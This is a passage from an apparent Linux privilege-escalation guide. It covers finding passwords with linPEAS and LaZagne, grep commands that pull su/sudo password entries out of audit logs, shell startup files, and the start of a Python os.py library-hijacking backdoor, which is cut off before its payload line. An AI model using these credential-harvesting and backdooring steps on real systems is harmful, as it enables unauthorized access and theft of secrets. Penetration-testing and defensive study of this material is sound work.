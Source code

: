 Read the code of [**linPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), it searches for **several possible files that could contain passwords**.\
**Other interesting tool** that you can use to do so is: [**LaZagne**](https://github.com/AlessandroZ/LaZagne) which is an open source application used to retrieve lots of passwords stored on a local computer for Windows, Linux & Mac.

### Logs

If you can read logs, you may be able to find **interesting/confidential information inside of them**. The more strange the log is, the more interesting will be (probably).\
Also, some "**bad**" configured (backdoored?) **audit logs** may allow you to **record passwords** inside audit logs as explained in this post: [https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/](https://www.redsiege.com/blog/2019/05/logging-passwords-on-linux/).

```bash
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

In order to **read logs the group** [**adm**](interesting-groups-linux-pe/#adm-group) will be really helpful.

### Shell files

```bash
~/.bash_profile # if it exists, read once when you log in to the shell
~/.bash_login # if it exists, read once if .bash_profile doesn't exist
~/.profile # if it exists, read once if the two above don't exist
/etc/profile # only read if none of the above exist
~/.bashrc # if it exists, read every time you start a new shell
~/.bash_logout # if it exists, read when the login shell exits
~/.zlogin #zsh shell
~/.zshrc #zsh shell
```

### Generic Creds Search/Regex

You should also check for files containing the word "**password**" in it's **name** or inside the **content**, also check for IPs and emails inside logs, or hashes regexps.\
I'm not going to list here how to do all of this but if you are interested you can check the last checks that [**linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) perform.

## Writable files

### Python library hijacking

If you know from **where** a python script is going to be executed and you **can write inside** that folder or you can **modify python libraries**, you can modify the os library and backdoor it (if you can write where python script is going to be executed, copy and paste the os.py library).

To **backdoor the library** just add at the end of the os.py library the following line (change IP and PORT):
